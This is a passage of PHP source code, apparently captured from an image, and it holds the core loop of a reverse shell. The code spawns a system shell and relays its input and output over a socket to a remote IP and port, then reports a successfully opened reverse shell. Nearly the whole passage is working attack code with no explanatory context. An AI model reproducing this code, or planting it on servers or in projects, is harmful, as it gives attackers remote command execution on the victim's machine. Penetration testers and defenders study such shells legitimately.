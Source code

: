 ```
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
```